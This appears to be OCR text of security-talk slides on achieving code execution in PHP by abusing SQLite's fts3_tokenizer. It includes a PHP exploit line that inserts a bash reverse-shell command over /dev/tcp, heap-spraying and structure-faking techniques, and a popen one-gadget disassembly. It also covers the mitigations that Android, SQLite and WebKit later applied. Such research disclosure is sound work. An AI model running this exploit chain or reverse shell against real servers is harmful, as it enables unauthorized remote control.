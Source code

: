 fts3_tokenizer code execution in PHP
 There's no perfect stack pivot gadget xCreate callback, but xOpen callback takes an argument from insert clause
$db->exec("select fts3_tokenizer('simple', x'$spray_address'); create virtual table a using fts3; insert into a values('bash -c \"bash>/dev/tcp/127.1/1337 0<&1\"')");
 To spray the struct, we can open the path :memory: and insert packed blob values into the in-memory table
 Some php runtime configuration can be set per directory using .htaccess, even when ini_set has been disabled. Some of these values are placed in continuous memory in .bss segment, like mysqlnd.net_cmd_buffer_size and mysqlnd.log_mask. We can use them to fake the structure.
28

fts3_tokenizer code execution in PHP

 Finally use the one-gadget in php to pop the shell

.text:00000000002F137A mov rbx, rsi

.text:00000000002F137D lea rsi, aRbLR+5 ; modes

.text:00000000002F1384 sub rsp, 58h

.text:00000000002F1388 mov [rsp+88h+var_74], edi

.text:00000000002F138C mov rdi, rbx

; command

.text:00000000002F138F mov [rsp+88h+var_58], rdx

.text:00000000002F1394 mov rax, fs:28h

.text:00000000002F139D mov [rsp+88h+var_40], rax

.text:00000000002F13A2 xor eax, eax

.text:00000000002F13A4 mov [rsp+88h+var_50], rcx

.text:00000000002F13A9 mov [rsp+88h+var_48], 0

.text:00000000002F13B2 call _popen

 Too much hard coding, combined with other bugs will be much more reliable

29

Android has disabled fts3_tokenizer
30

Even SQLite itself
SQLite 3.11 has disabled the function by default
31

WebKit has overridden the function now
32

Bonus
The WebKit patch reveals more interesting functions
/* ** The scalar function takes two arguments: (1) the number of dimensions ** to the rtree (between 1 and 5, inclusive) and (2) a blob of data containing ** an r-tree node. For a two-dimensional r-tree structure called "rt", to ** deserialize all nodes, a statement like: ** SELECT rtreenode(2, data) FROM rt_node; */
static void rtreenode(sqlite3_context *ctx, int nArg, sqlite3_value **apArg){
RtreeNode node; Rtree tree;
tree.nDim = (u8)sqlite3_value_int(apArg[0]); tree.nDim2 = tree.nDim*2; tree.nBytesPerCell = 8 + 8 * tree.nDim; node.zData = (u8 *)sqlite3_value_blob(apArg[1]);
33
